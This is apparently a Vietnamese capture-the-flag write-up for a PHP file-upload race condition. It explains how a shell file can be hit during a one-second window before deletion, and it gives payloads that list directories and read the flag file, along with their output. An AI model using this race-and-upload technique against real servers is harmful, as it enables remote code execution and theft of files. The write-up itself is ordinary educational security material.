 # Solution


Đây là một dạng race condition.

```php
$filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';
```

Ta nhận thấy file được ghi tạm thời ở `./tmp/md5($_SERVER['REMOTE_ADDR']).php`

và sẽ được xóa sau khi xử lí xong `unlink($filename);` nhưng điểm đáng chú ý là hàm `sleep(1);`. Sau 1s mới thực hiện xóa file => trong khoảng thời gian đó ta vẫn có thể access tới để thực thi php shell code.

Kịch bản: 1 thread dùng để upload shell, 1 thread dùng để access tới shell cụ thể xem ở `exp.py`

Payload: 

```php
print_r(scandir($_GET[0]));
```

Kết quả:

```php
Array
(
    [0] => .
    [1] => ..
    [2] => flag.php
    [3] => index.php
    [4] => php-fpm.sock
    [5] => source.php
    [6] => tmp
)
```

Payload:

```php
print_r(file_get_contents('/flag.php'));
```

Kết quả:

```php
<?php

$flag = 'WEBSEC{Try_it_yourself_dont_copy_and_paste}';
```